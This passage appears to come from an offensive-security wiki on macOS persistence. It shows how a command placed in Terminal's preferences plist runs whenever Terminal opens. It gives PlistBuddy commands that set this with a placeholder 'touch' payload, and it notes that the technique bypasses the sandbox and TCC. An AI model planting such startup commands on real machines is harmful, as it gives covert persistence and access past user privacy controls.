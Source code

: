 For example, the Terminal can execute a command in the Startup:

<figure><img src="../.gitbook/assets/image (676).png" alt="" width="495"><figcaption></figcaption></figure>

This config is reflected in the file **`~/Library/Preferences/com.apple.Terminal.plist`** like this:

```bash
[...]
"Window Settings" => {
    "Basic" => {
      "CommandString" => "touch /tmp/terminal_pwn"
      "Font" => {length = 267, bytes = 0x62706c69 73743030 d4010203 04050607 ... 00000000 000000cf }
      "FontAntialias" => 1
      "FontWidthSpacing" => 1.004032258064516
      "name" => "Basic"
      "ProfileCurrentVersion" => 2.07
      "RunCommandAsShell" => 0
      "type" => "Window Settings"
    }
[...]
```

So, if the plist of the preferences of the terminal in the system could be overwritten, the the **`open`** functionality can be used to **open the terminal and that command will be executed**.

You can add this from the cli with:

{% code overflow="wrap" %}
```bash
# Add
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" 'touch /tmp/terminal-start-command'" $HOME/Library/Preferences/com.apple.Terminal.plist
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"RunCommandAsShell\" 0" $HOME/Library/Preferences/com.apple.Terminal.plist

# Remove
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" ''" $HOME/Library/Preferences/com.apple.Terminal.plist
```
{% endcode %}

### Terminal Scripts / Other file extensions

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)
* TCC bypass: [✅](https://emojipedia.org/check-mark-button)
  * Terminal use to have FDA permissions of the user use it

#### Location

* **Anywhere**
  * **Trigger**: Open Terminal

#### Description & Exploitation
